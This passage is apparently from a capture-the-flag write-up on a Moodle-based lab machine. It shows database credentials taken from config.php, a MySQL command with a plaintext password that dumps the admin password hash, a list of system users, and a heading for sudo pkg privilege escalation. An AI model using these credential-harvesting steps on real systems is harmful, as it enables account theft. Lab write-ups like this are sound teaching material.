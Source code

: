 After some manual enumeration found moodle directory and get the db creds from config.php file

![](/assets/img/posts/schooled/db-creds.png)


login to mysql and get "admin" password hash
```bash
/usr/local/bin/mysql -u moodle -pPlaybookMaster2020 -D moodle -e "SELECT username,password FROM mdl_user WHERE username='admin'"
```

![](/assets/img/posts/schooled/hash-cracked.png)


## `pkg` with sudo

There are 2 users on the box
```bash
jamie:*:1001:1001:Jamie:/home/jamie:/bin/sh
steve:*:1002:1002:User &:/home/steve:/bin/csh
```
